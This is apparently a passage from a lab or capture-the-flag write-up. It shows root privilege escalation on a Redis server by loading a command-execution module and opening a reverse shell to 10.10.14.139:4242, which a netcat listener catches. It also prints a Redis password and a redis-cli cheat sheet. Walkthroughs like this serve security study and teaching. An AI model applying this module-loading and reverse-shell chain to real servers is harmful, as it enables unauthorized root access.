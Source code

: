 There's apparently no key value pairs in this redis instance, but we might still be able to use it as a Privilege escalation vector 
```bash
127.0.0.1:6379> KEYS *
(empty array)
```

[https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)  
[https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)  

Using the above we're building a redis module writen in C from an amd64 machine. And then loading it from the running redis instance. That module then lets us call system commands, or run a reverse shell. 
```bash
127.0.0.1:6379> module load /dev/shm/module.so
OK
127.0.0.1:6379> INFO modules
# Modules
module:name=system,ver=1,api=1,filters=0,usedby=[],using=[],options=[]
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> module load /dev/shm/module.so
OK
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.rev 10.10.14.139 4242
```

Catching the shell
```bash
rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.172] 33752
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/var/lib/redis
id
uid=0(root) gid=0(root) groups=0(root)
```

Notes on how to steer things around in redis-cli
```bash
redis-cli -h localhost -p 6379
redis-cli
INFO                 # if NOAUTH Authentication required, then auth is needed
AUTH password        # redis can be configured to have only a password
AUTH user password   # or both a username and a password
INFO keyspace        # equivalent to a show databases
SELECT 1             # select database 1
KEYS *               # List all keys in database 1

get key:1
set key:1 newvalue
del key:1

MODULE LOAD /path/to/mymodule.so  # load a module at runtime
```

